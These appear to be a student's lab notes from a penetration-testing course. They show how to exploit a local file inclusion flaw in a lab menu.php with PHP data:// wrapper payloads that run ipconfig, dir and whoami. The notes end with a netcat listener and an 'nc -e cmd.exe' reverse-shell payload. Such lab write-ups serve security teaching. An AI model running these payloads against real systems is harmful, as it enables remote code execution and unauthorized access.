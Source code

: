 9.4.4.10

# 9.4.4.10
## 9.4.4.10.1. Exploit the LFI vulnerability using a PHP wrapper.

Instead of poisoning a local file, we can use an alternative payload by way of using a data wrapper. The application should treat it the same as using a regular file and include it in the page. 

`192.168.214.10/menu.php?file=data:text/plain,<?php echo shell_exec("ipconfig") ?>`
![3e4e0ac65d2ad5d8536cf29a34550222.png](../../_resources/686f3addba3b4a18b9095699e4ecf866.png)

`192.168.214.10/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>`
![b6df8c1de3b7ac288961f2c307a1c258.png](../../_resources/96fc2c92effd4c4d9c47af2ce9842837.png)

`192.168.214.10/menu.php?file=data:text/plain,<?php echo shell_exec("whoami") ?>`
![4202736274398c046734d7ad384df6a6.png](../../_resources/55bdedd59ab14c76ad2cf9d6d918b819.png)



## 9.4.4.10.2. Use a PHP wrapper to get a shell on your Windows 10 lab machine.
Start a netcat listener on Kali
```plaintext
kali@kali:~$ sudo nc -lvnp 5678               
listening on [any] 5678 ... 
```

Execute PHP code that opens a netcat client that sends cmd.exe upon connection
`192.168.214.10/menu.php?file=data:text/plain,<?php echo shell_exec("nc -nv 192.168.119.214 5678 -e cmd.exe") ?>`
![acb07ab85a511fadee0ff1f6e99acb1f.png](../../_resources/eb72bb5b0d6340f48232f3e23198d568.png)

Notice we have a shell
![a6f85a4ea83794f743efcbb696f0ae8d.png](../../_resources/872e976fbaf6479ab1f7f9364d1a12a2.png)





